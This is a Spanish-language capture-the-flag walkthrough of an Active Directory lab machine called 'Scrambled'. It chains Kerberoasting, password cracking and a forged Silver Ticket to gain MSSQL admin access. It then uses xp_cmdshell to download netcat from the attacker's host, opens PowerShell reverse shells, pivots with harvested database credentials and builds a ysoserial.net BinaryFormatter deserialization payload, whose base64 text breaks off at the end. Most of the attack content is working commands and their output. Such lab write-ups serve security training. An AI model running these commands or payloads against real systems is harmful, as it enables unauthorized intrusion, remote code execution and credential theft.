Con `impacket-GetUserSPNs` vemos dos SPN's para el servicio de MSSQL.
```console
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host DC1.scrm.local
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 17:32:02.351452  2024-12-18 15:11:46.512900
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 17:32:02.351452  2024-12-18 15:11:46.512900
```

Ahora con el parámetro `-request` podemos solicitar el TGS e intentar crackear el hash de forma offline.


Podemos intentar crackear el hash con `john` y conseguimos una credencial.
```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pegasus60        (?)
1g 0:00:00:06 DONE (2024-12-18 15:58) 0.1587g/s 1703Kp/s 1703Kc/s 1703KC/s Penrose..Pearce
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# Silver Ticket Attack
Una pista interesante que nos han dado en el PDF es la sección de que solo pueden acceder al servidor MSSQL los administradores del dominio, y nosotros teniendo la credencial de la cuenta de usuario que alberga este servicio podemos hacer un ataque Silver Ticket para que el servicio de MSSQL se piense que somos administradores del dominio.

Según [esta entrada en thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver), necesitamos saber varias cosas para poder hacer este ataque.
- El hash NT del usuario
- El SID del dominio
- El dominio
- El SPN
- El nombre de usuario

## Obtaining Domain SID
Para esto, primero necesitamos saber el SID del dominio, para esto se suele utilizar `impacket-lookupsid` pero se utiliza autenticación NTLM, por lo cual tenemos que buscar una herramienta alternativa, podríamos hacer una consulta LDAP para consultar el SID del dominio [como se muestra en esta pregunta de serverfault](https://serverfault.com/questions/851864/get-sid-by-its-objectsid-using-ldapsearch)

Pero bien, si intentamos hacer una consulta con `ldapsearch` nos reporta que las credenciales no son válidas ya que se utiliza NTLM.
```console
ldapsearch -LLL -H ldap://DC1.scrm.local:389 -b dc=scrm,dc=local -D scrm.local\ksimpson -w ksimpson "(sAMAccountName=ksimpson)" | grep -i "objectSid::" | cut -d ":" -f3 | xargs
ldap_bind: Invalid credentials (49)
	additional info: 80090308: LdapErr: DSID-0C090439, comment: AcceptSecurityContext error, data 52e, v4563
```

### Configuring `/etc/krb5.conf` to use `ldapsearch` with GSSAPI
Según [esta otra pregunta de serverfault](https://serverfault.com/questions/845470/ldapsearch-and-kerberos-authentication), podemos autenticarnos por Kerberos con `ldapsearch`, primero tenemos que instalar el paquete `libsasl2-modules-gssapi-mit` con:
```console
sudo apt install libsasl2-modules-gssapi-mit
```

Ahora, tenemos que utilizar `kinit` para autenticar a un usuario y obtener el TGT, y así mediante el parámetro `-Y GSSAPI` de `ldapsearch` autenticarnos con Kerberos.

Primero tenemos que añadir el Realm `SCRM.local` al archivo `/etc/krb5.conf` ya que obviamente, no tenemos creado el Realm.
```console
kinit ksimpson@scrm.local
kinit: Cannot find KDC for realm "scrm.local" while getting initial credentials
```

Así ha quedado el archivo `/etc/krb5.conf`
```
[libdefaults]
    default_realm = SCRM.LOCAL

[realms]
    SCRM.LOCAL = {
        kdc = 10.129.108.148
    }

[domain_realm]
    DC1.SCRM.LOCAL = SCRM.LOCAL
```

Ahora podemos solicitar el TGT como `ksimpson`
```console
kinit ksimpson
Password for ksimpson@SCRM.LOCAL:
```

Lo podemos comprobar con `klist`
```console
klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: ksimpson@SCRM.LOCAL

Valid starting       Expires              Service principal
12/18/2024 16:22:00  12/19/2024 02:22:00  krbtgt/SCRM.LOCAL@SCRM.LOCAL
	renew until 12/19/2024 16:21:58
```

### Converting ObjectSid to Domain SID
Ahora si que podemos recuperar el `objectSid` haciendo la consulta por LDAP.
```console
ldapsearch -LLL -Y GSSAPI -H ldap://DC1.scrm.local:389 -b dc=scrm,dc=local -D scrm.local\ksimpson -w ksimpson "(sAMAccountName=ksimpson)" | grep -i "objectSid::" | cut -d ":" -f3 | xargs
SASL/GSSAPI authentication started
SASL username: ksimpson@SCRM.LOCAL
SASL SSF: 256
SASL data security layer installed.
AQUAAAAAAAUVAAAAhQSCo0F98mxA04uXUwYAAA==
```

Ahora con este script de bash podemos construir el SID a partir del ObjectSid que tenemos.
```bash
#!/bin/bash

# Base-64 encoded objectSid
OBJECT_ID="AQUAAAAAAAUVAAAAhQSCo0F98mxA04uXUwYAAA=="

# Decode it, hex-dump it and store it in an array
G=($(echo -n $OBJECT_ID | base64 -d -i | hexdump -v -e '1/1 " %02X"'))

# SID in HEX
# SID_HEX=${G[0]}-${G[1]}-${G[2]}${G[3]}${G[4]}${G[5]}${G[6]}${G[7]}-${G[8]}${G[9]}${G[10]}${G[11]}-${G[12]}${G[13]}${G[14]}${G[15]}-${G[16]}${G[17]}${G[18]}${G[19]}-${G[20]}${G[21]}${G[22]}${G[23]}-${G[24]}${G[25]}${G[26]}${G[27]}${G[28]}

# SID Structure: https://technet.microsoft.com/en-us/library/cc962011.aspx
# LESA = Little Endian Sub Authority
# BESA = Big Endian Sub Authority
# LERID = Little Endian Relative ID
# BERID = Big Endian Relative ID

BESA2=${G[8]}${G[9]}${G[10]}${G[11]}
BESA3=${G[12]}${G[13]}${G[14]}${G[15]}
BESA4=${G[16]}${G[17]}${G[18]}${G[19]}
BESA5=${G[20]}${G[21]}${G[22]}${G[23]}
BERID=${G[24]}${G[25]}${G[26]}${G[27]}${G[28]}

LESA1=${G[2]}${G[3]}${G[4]}${G[5]}${G[6]}${G[7]}
LESA2=${BESA2:6:2}${BESA2:4:2}${BESA2:2:2}${BESA2:0:2}
LESA3=${BESA3:6:2}${BESA3:4:2}${BESA3:2:2}${BESA3:0:2}
LESA4=${BESA4:6:2}${BESA4:4:2}${BESA4:2:2}${BESA4:0:2}
LESA5=${BESA5:6:2}${BESA5:4:2}${BESA5:2:2}${BESA5:0:2}
LERID=${BERID:6:2}${BERID:4:2}${BERID:2:2}${BERID:0:2}

LE_SID_HEX=${LESA1}-${LESA2}-${LESA3}-${LESA4}-${LESA5}-${LERID}

# Initial SID value which is used to construct actual SID
SID="S-1"

# Convert LE_SID_HEX to decimal values and append it to SID as a string
IFS='-' read -ra ADDR <<< "${LE_SID_HEX}"
for OBJECT in "${ADDR[@]}"; do
  SID=${SID}-$((16#${OBJECT}))
done

echo ${SID}
```

Y ahora ejecutando el script, conseguimos el SID, eso sí, hay que borrar la última parte ya que pertenece al RID.
```console
./sid.sh
S-1-5-21-2743207045-1827831105-2542523200-1619
```

## Credential to NTLM Hash
Ahora necesitamos saber el hash NT:LM de la contraseña que tenemos, para ello podemos utilizar python.
```console
>>> import hashlib,binascii
>>> hash = hashlib.new('md4', "Pegasus60".encode('utf-16le')).digest()
>>> print(binascii.hexlify(hash))
b'b999a16500b87d17ec7f2e2a68778f05'
```

## Creating the Silver Ticket & Accessing the MSSQL Instance
Entonces, ya tenemos lo necesario.
- SID: S-1-5-21-2743207045-1827831105-2542523200
- Dominio: scrm.local
- SPN: MSSQLSvc/dc1.scrm.local
- Username: sqlsvc
- Hash NT: b999a16500b87d17ec7f2e2a68778f05

Ahora con `ticketer.py` podemos generar un Silver Ticket como el usuario `Administrator`.
```console
ticketer.py -nthash "b999a16500b87d17ec7f2e2a68778f05" -domain-sid "S-1-5-21-2743207045-1827831105-2542523200" -domain scrm.local -spn "MSSQLSvc/dc1.scrm.local" "Administrator"
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

Exportamos la variable de entorno necesaria para poder autenticarnos con Kerberos.
```console
export KRB5CCNAME=$(pwd)/Administrator.ccache
```

Ahora si utilizamos `klist` podemos ver nuestro ticket y comprobar el principal.
```console
klist
Ticket cache: FILE:/home/kali/Desktop/scrambled/content/Administrator.ccache
Default principal: Administrator@SCRM.LOCAL

Valid starting       Expires              Service principal
12/18/2024 16:55:28  12/16/2034 16:55:28  MSSQLSvc/dc1.scrm.local@SCRM.LOCAL
	renew until 12/16/2034 16:55:28
```

Ahora con `impacket-mssqlclient.py` podemos iniciar sesión en el MSSQL perfectamente.
```console
mssqlclient.py -k dc1.scrm.local
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (SCRM\administrator  dbo@master)>
```

# Information Disclosure
En este punto, ya podemos ejecutar comandos de forma remota utilizando la función `xp_cmdshell`
```console
SQL (SCRM\administrator  dbo@master)> enable_xp_cmdshell
[*] INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SCRM\administrator  dbo@master)> RECONFIGURE
SQL (SCRM\administrator  dbo@master)> xp_cmdshell whoami
output
-----------
scrm\sqlsvc
```

Aunque antes de ganar acceso, enumerando la base de datos vemos una interesante llamada `ScrambleHR`
```console
SQL (SCRM\administrator  dbo@master)> enum_db
name         is_trustworthy_on
----------   -----------------
master                       0

tempdb                       0

model                        0

msdb                         1

ScrambleHR                   0
```

Vemos que esta base de datos tiene tres tablas.
```console
SQL (SCRM\administrator  dbo@master)> USE ScrambleHR;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: ScrambleHR
[*] INFO(DC1): Line 1: Changed database context to 'ScrambleHR'.
SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT name AS Table_Name FROM sys.tables;
Table_Name
----------
Employees

UserImport

Timesheets
```

Y consultando lo que hay en la tabla `UserImport` vemos que tenemos una credencial.
```console
SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT * From Employees;
EmployeeID   FirstName   Surname   Title   Manager   Role
----------   ---------   -------   -----   -------   ----
SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT * FROM UserImport;
LdapUser   LdapPwd             LdapDomain   RefreshInterval   IncludeGroups
--------   -----------------   ----------   ---------------   -------------
MiscSvc    ScrambledEggs9900   scrm.local                90               0
```

# Reverse Shell -> Foothold
Así que vamos a ganar acceso a la máquina.
Primero vamos a crear un directorio a través de la función `xp_cmdshell` en `C:\Windows\Temp\pointed`
```console
SQL (SCRM\administrator  dbo@master)> xp_cmdshell "mkdir c:\windows\temp\pointed"
output
------
NULL
```

Vamos a copiar el ejecutable de `nc.exe` a la máquina víctima, vamos a servirlo por el puerto 8081.
```console
ls | grep .exe
nc.exe
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Ahora nos lo descargamos en la máquina víctima.
```console
SQL (SCRM\administrator  dbo@master)> xp_cmdshell "curl http://10.10.14.197:8081/nc.exe -o c:\windows\temp\pointed\nc.exe"
output
--------------------------------------------------------------------------------
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current

                                 Dload  Upload   Total   Spent    Left  Speed

100 59392  100 59392    0     0   384k      0 --:--:-- --:--:-- --:--:--  386k

NULL
```

Ahora, nos ponemos en escucha por el puerto 443 con `netcat`
```console
rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y nos mandamos la reverse shell.
```console
SQL (SCRM\administrator  dbo@master)> xp_cmdshell "c:\windows\temp\pointed\nc.exe -e powershell 10.10.14.197 443"
```

Ahora hemos ganado acceso como el usuario `sqlsvc`
```console
PS C:\Windows\system32> whoami
whoami
```

## User Pivoting w/RunAsCs.exe
Pero recordemos que tenemos el combo que hemos encontrado en la base de datos
```
MiscSvc:ScrambledEggs9900
```

Vamos a compartir el ejecutable de `RunasCs.exe` para la máquina víctima.
```console
PS C:\windows\temp\pointed> curl http://10.10.14.197:8081/RunasCs.exe -o runascs.exe
curl http://10.10.14.197:8081/RunasCs.exe -o runascs.exe
PS C:\windows\temp\pointed> dir
dir


    Directory: C:\windows\temp\pointed


Mode                LastWriteTime         Length Name                                                              
----                -------------         ------ ----                                                              
-a----       18/12/2024     16:20          59392 nc.exe                                                            
-a----       18/12/2024     16:22          51712 runascs.exe
```

Ahora nos ponemos en escucha otra vez con `netcat` por el puerto 443.
```console
rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Ahora nos mandamos una reverse shell utilizando el `Logon Type` 3 que corresponde a `Network Logon`.
```console
PS C:\windows\temp\pointed> .\runascs.exe MiscSvc ScrambledEggs9900 powershell.exe -r 10.10.14.197:443 -l 3
.\runascs.exe MiscSvc ScrambledEggs9900 powershell.exe -r 10.10.14.197:443 -l 3
[*] Warning: LoadUserProfile failed due to insufficient permissions

[+] Running in session 0 with process function CreateProcessAsUserW()
[+] Using Station\Desktop: Service-0x0-74247$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 2508 created in background.
```

Y conseguimos una shell como `MiscSvc`
```console
PS C:\Windows\System32> whoami
whoami
scrm\miscsvc
```

Podemos leer la flag de usuario.
```console
PS C:\users\miscsvc\desktop> type user.txt
type user.txt
9d9857bee160e3...
```

# Privilege Escalation
## Detecting the ScrambleClient.exe we saw in the website
Analizando los recursos de la máquina, encontramos el cliente que hemos visto antes en la página web, o al menos, eso es lo que quiero pensar.
```console
PS C:\shares\IT\apps\Sales Order Client> dir
dir


    Directory: C:\shares\IT\apps\Sales Order Client


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       05/11/2021     20:52          86528 ScrambleClient.exe
-a----       05/11/2021     20:52          19456 ScrambleLib.dll
```

No puedo copiar el archivo por SMB ya que está desactivada la autenticación NTLM.
```console
copy ScrambleClient.exe \\10.10.14.197\smbFolder\ScrambleClient.exe
copy ScrambleClient.exe \\10.10.14.197\smbFolder\ScrambleClient.exe
copy : The request is not supported.
At line:1 char:1
+ copy ScrambleClient.exe \\10.10.14.197\smbFolder\ScrambleClient.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand
```

Así que como el ejecutable está en los recursos compartidos por SMB, vamos a utilizar otra vez `impacket-smbclient` que si admite autenticación por Kerberos para descargarlo.
```console
# ls
drw-rw-rw-          0  Fri Nov  5 21:57:08 2021 .
drw-rw-rw-          0  Fri Nov  5 21:57:08 2021 ..
-rw-rw-rw-      86528  Fri Nov  5 21:57:08 2021 ScrambleClient.exe
-rw-rw-rw-      19456  Fri Nov  5 21:57:08 2021 ScrambleLib.dll
# mget *
[*] Downloading ScrambleClient.exe
[*] Downloading ScrambleLib.dll
```

Y ya lo tenemos en nuestra máquina.
```console
ls
ScrambleClient.exe  ScrambleLib.dll
```

## Reversing Scramble Client
Podemos ver que ambos archivos utilizan .NET, por lo cual podemos utilizar `dotPeek` para descompilarlo y analizar el código fuente.
```console
➜  client file ScrambleClient.exe
ScrambleClient.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
➜  client file ScrambleLib.dll
ScrambleLib.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Podemos compartirnos estos archivos a nuestra máquina con `impacket-smbserver`
```console
impacket-smbserver -smb2support smbFolder .
```


En el archivo `ScrambleLib.dll` vemos el método `Logon(string Username, string Password)`
```c#
 public bool Logon(string Username, string Password)
    {
      try
      {
        if (string.Compare(Username, "scrmdev", true) == 0)
        {
          Log.Write("Developer logon bypass used");
          return true;
        }
        MD5 md5 = MD5.Create();
        byte[] bytes = Encoding.ASCII.GetBytes(Password);
        byte[] buffer = bytes;
        int length = bytes.Length;
        Convert.ToBase64String(md5.ComputeHash(buffer, 0, length));
        ScrambleNetResponse response = this.SendRequestAndGetResponse(new ScrambleNetRequest(ScrambleNetRequest.RequestType.AuthenticationRequest, Username + "|" + Password));
        switch (response.Type)
        {
          case ScrambleNetResponse.ResponseType.Success:
            Log.Write("Logon successful");
            return true;
          case ScrambleNetResponse.ResponseType.InvalidCredentials:
            Log.Write("Logon failed due to invalid credentials");
            return false;
          default:
            throw new ApplicationException(response.GetErrorDescription());
        }
      }
      catch (Exception ex)
      {
        ProjectData.SetProjectError(ex);
        Exception exception = ex;
        Log.Write("Error: " + exception.Message);
        throw exception;
      }
    }
```

Vemos que si se utiliza el nombre de usuario `scrmdev` se salta el proceso de autenticación y podemos autenticar sin contraseña.

# Analyzing Client Code & Insecure Deserialization (BinaryFormatter) w/ysoserial.net
Otra cosa interesante es en la clase `SalesOrder`, podemos ver que se utiliza un formato de serialización llamado `Binary Formatter`
```c#
 public string SerializeToBase64()
    {
      BinaryFormatter binaryFormatter = new BinaryFormatter();
      Log.Write("Binary formatter init successful");
      using (MemoryStream serializationStream = new MemoryStream())
      {
        binaryFormatter.Serialize((Stream) serializationStream, (object) this);
        return Convert.ToBase64String(serializationStream.ToArray());
      }
    }

    public static SalesOrder DeserializeFromBase64(string Base64)
    {
      try
      {
        byte[] buffer = Convert.FromBase64String(Base64);
        BinaryFormatter binaryFormatter = new BinaryFormatter();
        Log.Write("Binary formatter init successful");
        using (MemoryStream serializationStream = new MemoryStream(buffer))
          return (SalesOrder) binaryFormatter.Deserialize((Stream) serializationStream);
      }
      catch (Exception ex)
      {
        ProjectData.SetProjectError(ex);
        throw new ApplicationException("Error deserializing sales order: " + ex.Message);
      }
    }
```

Podemos ver que deserializar utilizando este formato puede llegar a ejecución remota de comandos 


Recomiendo leer [este artículo de Microsoft](https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide), y podemos generar un payload para mandarnos una reverse shell utilizando [ysoserial.net](https://github.com/pwntester/ysoserial.net) que ya lo hemos utilizado en alguna máquina.

Ahora bien, tenemos que entender como funciona la aplicación para poder mandar este payload, para ello podemos analizar la clase `ScrambleNetRequest` donde podemos ver todos los códigos que se envían al servidor.


Podemos hacer una pequeña prueba conectándonos al servidor con `telnet`
```console
telnet 10.129.108.148 4411
Trying 10.129.108.148...
Connected to 10.129.108.148.
Escape character is '^]'.
SCRAMBLECORP_ORDERS_V1.0.3;
LIST_ORDERS
SUCCESS;AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAKU0NSTVNPMzYwMQYEAAAAC1NDUk1RVTkxODcyBgUAAAAGSiBIYWxsCQYAAAAAQBHK4mnaCAAAAAAAIHJABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==|AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAKU0NSTVNPMzc0OQYEAAAAC1NDUk1RVTkyMjEwBgUAAAAJUyBKZW5raW5zCQYAAAAAAJ07rZbaCAAAAAAAUJJABAYAAAB/U3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuTGlzdGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQMAAAAGX2l0ZW1zBV9zaXplCF92ZXJzaW9uBgAACAgJBwAAAAAAAAAAAAAAEQcAAAAAAAAACw==
```

Al decodificarlo en base64 podemos ver una especie de objeto serializado, esto tiene sentido por lo que hemos visto de `BinaryFormatter`
```console
BScrambleLib, Version=1.0.3.0, Culture=neutral, PublicKeyToken=nullScrambleLib.SalesOrder
              _IsComplete_ReferenceNumber_QuoteReference	_SalesRep
                                                                         _OrderItem_DueDate
_TotalCostSystem.Collections.Generic.List`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]
SCRMSO3601
          SCRMQU91872J Hall	@�i� r@System.Collections.Generic.List`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]_items_siz_version
                                        base64: invalid input
```

El código de comando `UPLOAD_ORDER` acaba invocando a la función `UploadOrder(SalesOrder NewOrder)` de la clase `ScrambleNetClient`
```c#
public void UploadOrder(SalesOrder NewOrder)
    {
      try
      {
        Log.Write("Uploading new order with reference " + NewOrder.ReferenceNumber);
        string base64 = NewOrder.SerializeToBase64();
        Log.Write("Order serialized to base64: " + base64);
        ScrambleNetResponse response = this.SendRequestAndGetResponse(new ScrambleNetRequest(ScrambleNetRequest.RequestType.UploadOrder, base64));
        if (response.Type != ScrambleNetResponse.ResponseType.Success)
          throw new ApplicationException(response.GetErrorDescription());
        Log.Write("Upload successful");
      }
      catch (Exception ex)
      {
        ProjectData.SetProjectError(ex);
        Exception exception = ex;
        Log.Write("Error: " + exception.Message);
        throw exception;
      }
    }
```

Podemos ver que en un momento, se envía el mensaje serializado en base64 utilizando el método `SendRequestAndGetResponse`
```c#
 private ScrambleNetResponse SendRequestAndGetResponse(ScrambleNetRequest Request)
    {
      Log.Write("Connecting to server");
      TcpClient tcpClient = new TcpClient();
      tcpClient.ReceiveTimeout = checked ((int) Math.Round(TimeSpan.FromSeconds(20.0).TotalMilliseconds));
      tcpClient.ReceiveBufferSize = 2048;
      tcpClient.SendBufferSize = 2048;
      tcpClient.Connect(this.Server, this.Port);
      try
      {
        using (NetworkStream stream = tcpClient.GetStream())
        {
          using (StreamWriter streamWriter = new StreamWriter((Stream) stream, Encoding.ASCII))
          {
            streamWriter.AutoFlush = true;
            if (this.GetResponse(stream).Type != ScrambleNetResponse.ResponseType.Banner)
              throw new ApplicationException("Unexpected response from server on initial connection");
            string str = ScrambleNetRequest.GetCodeFromMessageType(Request.Type) + ";" + Request.Parameter + "\n";
            Log.Write("Sending data to server: " + str);
            streamWriter.Write(str);
            Log.Write("Getting response from server");
            ScrambleNetResponse response = this.GetResponse(stream);
            try
            {
              byte[] bytes = Encoding.ASCII.GetBytes("QUIT\n");
              stream.Write(bytes, 0, bytes.Length);
              stream.Close();
            }
            catch (Exception ex)
            {
              ProjectData.SetProjectError(ex);
              Log.Write("Error sending QUIT and closing stream: " + ex.Message);
              ProjectData.ClearProjectError();
            }
            return response;
          }
        }
      }
      finally
      {
        try
        {
          tcpClient.Close();
        }
        catch (Exception ex)
        {
          ProjectData.SetProjectError(ex);
          Log.Write("Error closing TCP connection: " + ex.Message);
          ProjectData.ClearProjectError();
        }
      }
    }
```

Como podemos en el código, hay un punto donde se envía la data al servidor donde se construye la cadena de solicitud combinando el código de la solicitud y su parámetro (`Request.Type` y `Request.Parameter`) después de un punto y coma.

Por ejemplo una solicitud válida sería
```text
UPLOAD_ORDER;BASE64_SERIALIZADO_BINARY_FORMATTER
```

## Generating payload
Este sería el punto donde nosotros podríamos introducir nuestro payload generado ya que el servidor debería de primero decodificar el base64 y segundo deserializar el objeto enviado con formato `Binary Formatter` el cual ya hemos visto que es vulnerable.

En una máquina Windows que tengamos vamos a descargarnos [ysoserial.net](https://github.com/pwntester/ysoserial.net/actions/runs/12118384959/artifacts/2261004005) y lo descomprimimos.

Ahora podemos generar nuestro payload, primero debemos elegir un gadget compatible con el formato, por ejemplo vamos a elegir `TypeConfuseDelegate`


Ahora generamos nuestro payload, importante que el output esté en base64 ya que hemos visto que para enviarlo al servidor debe de estar codificado.
```console
ysoserial.exe -f BinaryFormatter -o base64 -c "C:\Users\Public\Documents\nc.exe -e powershell 10.10.14.197 443" -g typeconfusedelegate
AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAEIvYyBDOlxVc2Vyc1xQdWJsaWNcRG9jdW1lbnRzXG5jLmV4ZSAtZSBwb3dlcnNoZWxsIDEwLjEwLjE0LjE5NyA0NDMGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1u